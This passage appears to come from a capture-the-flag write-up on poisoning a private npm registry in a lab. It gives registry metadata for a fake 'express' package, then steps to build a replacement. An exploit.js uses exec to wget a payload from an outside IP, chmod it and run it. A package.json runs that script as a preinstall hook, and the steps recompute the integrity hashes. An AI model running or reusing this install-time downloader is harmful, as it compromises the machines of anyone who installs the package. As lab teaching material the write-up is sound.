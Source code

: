 ```json
      "_npmVersion": "10.9.2",
      "dist": {
        "integrity": "sha512-GP2zfi7iB3aqbUHeYFUS/pFkbYJpFjnCqRyStXI7RO1OQ84STcqpA4T5nyUzrpbX6c9EwSjuuMU9KmVfnc0Vow==",
        "shasum": "421c6123a46722141b9326fa52172ed4be83808c",
        "tarball": "http://npm-registry.bestfestivalcompany.thm:4873/express/express-4.21.2.tgz"
      },
      "contributors": []
    }
  },
  "time": {
    "modified": "2024-12-18T20:41:51.401Z",
    "created": "2024-12-18T20:41:51.401Z",
    "1.0.0": "2024-12-18T20:41:51.401Z"
  },
  "users": {},
  "dist-tags": {
    "latest": "4.21.2"
  },
  "_rev": "3-5fb81ed78fa0dd09",
  "_id": "express",
  "readme": "ERROR: No README data found!",
  "_attachments": {}
}
```

4. create a package folder.
5. place in the package folder a malicious post install script, like this `exploit.js`:

```javascript
const { exec } = require('child_process');
exec('tempfile=$(mktemp) && wget 10.10.174.209:4444/c -O $tempfile && chmod 777 $tempfile && $tempfile');
```

6. next to this, place a `package.json` that will run this script:

```json
{
  "name": "express",
  "version": "4.21.2",
  "scripts": {
    "preinstall": "node exploit.js"
  },
  "main": "exploit.js",
  "keywords": [],
  "author": "",
  "license": "ISC",
  "description": ""
}
```

7. use `npm pack` to create a the tgz file (or `tar -czf express-4.21.2.tgz package` from outside the package folder if you dont have npm installed)
8. calculate the sha1sum and sha512 integrity hashes: `sha1sum express-4.21.2.tgz` (npm pack will give you this already) and `openssl dgst -sha512 -binary express-4.21.2.tgz | openssl base64 -A`
9. update index.html with these hash values, and the path to your tarball if changed
